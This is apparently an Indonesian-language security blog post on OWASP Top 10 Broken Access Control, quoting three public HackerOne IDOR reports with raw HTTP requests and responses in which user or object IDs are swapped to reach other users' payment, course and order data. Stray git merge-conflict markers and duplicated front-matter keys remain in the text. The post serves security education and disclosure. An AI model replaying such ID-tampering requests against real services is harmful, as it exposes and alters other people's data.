


=======
description: "OWASP Top 10 — A1: Broken Access Control adalah kerentanan yang terjadi ketika pembatasan akses tidak diterapkan dengan benar, memungkinkan pengguna yang tidak sah untuk mengakses atau memodifikasi data. Pencegahan meliputi prinsip least privilege, validasi kontrol akses di server, dan pengujian keamanan berkala."
disableHLJS: true 
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---


>>>>>>> fd99555 (Update rebelsec.id Site)

Pada Artikel kali ini, akan masuk ke seri **Owasp Top 10**, kali ini saya akan menjelaskan **OWASP Top 10** yang berada di urutan pertama yaitu _Broken Access Control_, sebelum ke topik, apa itu **Owasp** & apa itu **Owasp Top 10**?

[Open Source Foundation for Application Security (OWASP Foundation)](https://owasp.org/)

## Pengantar

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

di artikel ini kita akan membahas owasp top 10 yang paling teratas untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Broken Access Control**.

## Broken Access Control

### Apa itu Broken Access Control ?

**Broken Access Control** adalah sebuah kondisi yang dimana sebuah sistem aplikasi yang tidak punya Authorisasi yang cukup, sehingga sistem tidak cukup baik dalam mengenal identitas user itu sendiri yang mengakibatkan sistem bisa menerima request dari yang seharusnya bukan hak user itu sendiri. (**Guest user** dapat hak **Admin User**).

Kelemahan sistem diatas bisa menyebabkan resiko yang tinggi bagi Confidentiality, Integrity, dan Availability (CIA TRIAD) sebuah data karena tidak difilter oleh developer yang dapat menyebabkan **Data Breach** (Pencurian data) oleh orang yang tidak bertanggung jawab. Biasanya sistem mengidentifikasi sebuah user dari beberapa hal, id refference (id user), Cookie (session user), PII (email, nomor HP, username), dll.

## Praktikal

Berikut saya cantumkan beberapa contoh report dari orang lain dengan teknik **IDOR** :

### 1. [#751577 IDOR allow access to payments data of any user (Hackerone)](https://hackerone.com/reports/751577)

disini attacker melakukan **POST** ke server (tanpa menggunakan authorisasi)

```
POST /api/v1/orders HTTP/1.1 Host: join.nordvpn.com Accept: application/json Accept-Language: en-US,en;q=0.5 Content-Type: application/json Content-Length: 179 DNT: 1 Connection: close
```

```
{
"payment": {
    "provider_method_account": "6xdxdd",
    "parameters": {}
},
"action": "order",
"plan_id": 653,
"user_id": 20027039,
"tax_country_code": "TW",
"payment_retry": 0,
"is_installment": false
}
```

Responnya :

```
{
"id": 42615458,
"user_id": 20027039,
"confirmation": {
    "id": 23093398,
    "created_at": "2019-12-04 17:01:35",
    "updated_at": "2019-12-04 17:01:35",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"█████\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49476958\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/264cae0b89e44a7bd263431b68d1122d\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=1\",\"want_shipping\":0}}"
}
}
```

dari respon diatas, attaker mengganti **user_id** miliknya dengan menggunakan **user_id** korban.

```
{
"id": 42616142,
"user_id": 89495247,
"confirmation": {
    "id": 23093800,
    "created_at": "2019-12-04 17:16:48",
    "updated_at": "2019-12-04 17:16:48",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,
    \"email\":\"hackerhacker@test.pl\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,
    \"item_name\":\"VPN order\",\"invoice\":\"49478089\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/
    4513bd083a97e1b5c23c69096d89ac80\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=0\",
    \"want_shipping\":0}}"
}
}
```

kemudian attacker mengganti **user_id** ke **23093782**, output nya seperti ini :

```
{
"id": 42616121,
"user_id": 89495166,
"confirmation": {
    "id": 23093782,
    "created_at": "2019-12-04 17:16:14",
    "updated_at": "2019-12-04 17:16:14",
    "type": "redirect",
    "value": "https://pay.gocardless.com/flow/RE000W16X7XH4JCXJZ623MS6H7W316N3"
}
}
```

kemudian attacker mengganti **user_id** ke **89495247 (Victims account)**, output nya seperti ini :

```
{
"id": 42616142,
"user_id": 89495247,
"confirmation": {
    "id": 23093800,
    "created_at": "2019-12-04 17:16:48",
    "updated_at": "2019-12-04 17:16:48",
    "type": "redirect_post",
    "value": "{\"url\":\"https:\\/\\/www.coinpayments.net\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"hackerhacker@test.pl\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49478089\",\"success_url\":\"https:\\/\\/join.nordvpn.com\\/payments\\/callback\\/4513bd083a97e1b5c23c69096d89ac80\",\"cancel_url\":\"https:\\/\\/join.nordvpn.com\\/order\\/error\\/?error_alert=payment&eu=0\",\"want_shipping\":0}}"
}
}
```

Impact yang terjadi dikarenakan kerentanan ini :

- Pencurian sensitive data milik costumer

### 2. [#227522 IDOR in editing courses (Hackerone)](https://hackerone.com/reports/227522)

Lanjut ke contoh kedua, attacker dapat mengedit hasil kursus (course) user lain, yang bisa membuat **Integritas** sebuah web tercoreng.

```
POST /instellingen/addcursus HTTP/1.1
Host: mijn.werkenbijdefensie.nl
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Referer: https://mijn.werkenbijdefensie.nl/instellingen/gegevens/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-CSRF-TOKEN: 34eb64be-ed52-442a-b945-f94b516da205
X-Requested-With: XMLHttpRequest
Content-Length: 77
Cookie: [cookiedata]
Connection: close

id=92973&name=test2&behaald=0&jaar=2022&omschrijving=test2&resultaat=test2%0A
```

dari data diatas kita dapat tarik kesimpulan bahwa id **92973** merupakan sebuah **id** kursus yang ada di website itu.

_Attacker_ dapat menambahkan kursus lain lalu melihat isinya dengan bantuan aplikasi seperti burp suite, OWASP ZAP, Intruder, dsb

Impact :

- extract the ID parameter value
- lookup if the user has any course linked to his account with this ID

### 3. [#544329 IDOR and statistics leakage in Orders (Hackerone)](https://hackerone.com/reports/544329)

Aplikasi Twitter punya service yang namanya **MoPub** yang difiturnya terdapat result dari **order**
endpoint : **https://app.mopub.com/web-client/api/orders/stats/query%22**

1. buat akun di **https://app.mopub.com/** lalu **login**
2. pergi ke **https://app.mopub.com/orders** lalu buat **order**
3. intercept lalu post, tapi ganti parameter **orderKeys**

```
POST /web-client/api/orders/stats/query HTTP/1.1
Host: app.mopub.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.mopub.com/orders
Content-Type: application/json
x-csrftoken: {TOKEN}
Content-Length: 98
Connection: close
Cookie: csrftoken={TOKEN}; sessionid={SID}; mp_mixpanel__c=1;

{"startTime":"2019-04-07","endTime":"2019-04-20","orderKeys":["43b29d60a9724fa9abbdc800044002d6"]}
```

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

Impact :

Pencurian Data

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

## Mitigasi

[Insecure Direct Object Reference (IDOR) Vulnerability — GeeksforGeeks](https://www.geeksforgeeks.org/insecure-direct-object-reference-idor-vulnerability/)

[Insecure Direct Object Reference (IDOR) Vulnerabilities in Brief | Netsparker](https://www.netsparker.com/blog/web-security/insecure-direct-object-reference-vulnerabilities-idor/)

[Prevent Parameter Tampering | Web Application Testing | Qualitrix](https://qualitrix.com/testing-web-applications-for-security-vulnerabilities/)

## Beberapa kerentanan lain di list CWE:

[WE-22 Improper Limitation of a Pathname to a Restricted Directory (‘Path Traversal’)](https://cwe.mitre.org/data/definitions/22.html)

[WE-23 Relative Path Traversal](https://cwe.mitre.org/data/definitions/23.html)

[WE-59 Improper Link Resolution Before File Access (‘Link Following’)](https://cwe.mitre.org/data/definitions/59.html)[CWE-200 Exposure of Sensitive Information to
an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

[CWE-201 Exposure of Sensitive Information Through Sent Data](https://cwe.mitre.org/data/definitions/201.html)

[CWE-219 Storage of File with Sensitive Data Under Web Root](https://cwe.mitre.org/data/definitions/219.html)

[CWE-264 Permissions, Privileges, and Access Controls (should no longer be used)](https://cwe.mitre.org/data/definitions/264.html)

[CWE-275 Permission Issues](https://cwe.mitre.org/data/definitions/275.html)

[CWE-276 Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)

[CWE-284 Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)

[CWE-285 Improper Authorization](https://cwe.mitre.org/data/definitions/285.html)

[CWE-352 Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

[CWE-359 Exposure of Private Personal Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/359.html)

[CWE-377 Insecure Temporary File](https://cwe.mitre.org/data/definitions/377.html)

[CWE-402 Transmission of Private Resources into a New Sphere (‘Resource Leak’)](https://cwe.mitre.org/data/definitions/402.html)

[CWE-425 Direct Request (‘Forced Browsing’)](https://cwe.mitre.org/data/definitions/425.html)

[CWE-441 Unintended Proxy or Intermediary (‘Confused Deputy’)](https://cwe.mitre.org/data/definitions/441.html)

[CWE-497 Exposure of Sensitive System Information to an Unauthorized Control Sphere](https://cwe.mitre.org/data/definitions/497.html)

[CWE-538 Insertion of Sensitive Information into Externally-Accessible File or Directory](https://cwe.mitre.org/data/definitions/538.html)

[CWE-540 Inclusion of Sensitive Information in Source Code](https://cwe.mitre.org/data/definitions/540.html)

[CWE-548 Exposure of Information Through Directory Listing](https://cwe.mitre.org/data/definitions/548.html)

[CWE-552 Files or Directories Accessible to External Parties](https://cwe.mitre.org/data/definitions/552.html)

[CWE-566 Authorization Bypass Through User-Controlled SQL Primary Key](https://cwe.mitre.org/data/definitions/566.html)

[CWE-601 URL Redirection to Untrusted Site (‘Open Redirect’)](https://cwe.mitre.org/data/definitions/601.html)

[CWE-639 Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

[CWE-651 Exposure of WSDL File Containing Sensitive Information](https://cwe.mitre.org/data/definitions/651.html)

[CWE-668 Exposure of Resource to Wrong Sphere](https://cwe.mitre.org/data/definitions/668.html)[CWE-706 Use of Incorrectly-Resolved Name or
Reference](https://cwe.mitre.org/data/definitions/706.html)
